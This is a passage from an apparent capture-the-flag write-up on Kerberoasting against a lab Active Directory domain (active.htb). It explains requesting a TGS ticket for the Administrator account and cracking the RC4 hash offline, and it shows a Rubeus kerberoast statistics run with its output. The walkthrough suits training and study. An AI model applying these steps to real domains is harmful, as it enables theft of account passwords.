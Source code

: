 ```
```


**What's Happening Here?**

- The `-request` flag is doing the magic by asking the Domain Controller (DC) for a TGS ticket associated with the **`Administrator`** account for the `CIFS` service.
- The response contains a Kerberos ticket hash in the format **`$krb5tgs$23$*...`** — **Bingo!** This is the jackpot for our Kerberoasting attack.

**Understanding the Ticket:**

- The output provides a **Type 23** Kerberos ticket (`$krb5tgs$23$*`), which uses **RC4 encryption**. Since RC4 is relatively weak by today's standards, it becomes an ideal target for offline brute-forcing or dictionary attacks.
- We can now take this TGS hash and attempt to crack it using popular tools like **`John the Ripper`** or **`Hashcat`** to potentially retrieve the plaintext password.


## **Roasting From Windows**

Before diving into the roasting, I always like to list stats first using the `Rubeus` tool. Why? This helps me see the different encryption types (`Type 23`, `Type 18`, `Type 17`) associated with various accounts and check when the password was last set. It's a good habit for real-world engagements — after all, the fresher the password, the tougher it might be to crack!

```
C:\Users> .\Rubeus.exe kerberoast /stats

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.1 


[*] Action: Kerberoasting

[*] Listing statistics about target users, no ticket requests being performed.
[*] Target Domain          : active.htb
[*] Searching path 'LDAP://DC.active.htb/DC=active,DC=htb' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


 ------------------------------------- 
 | Supported Encryption Type | Count |
 ------------------------------------- 
 | RC4_HMAC_DEFAULT          | 1     |
 ------------------------------------- 

 ---------------------------------- 
 | Password Last Set Year | Count |
 ---------------------------------- 
 | 2018                   | 1     |
 ----------------------------------
```

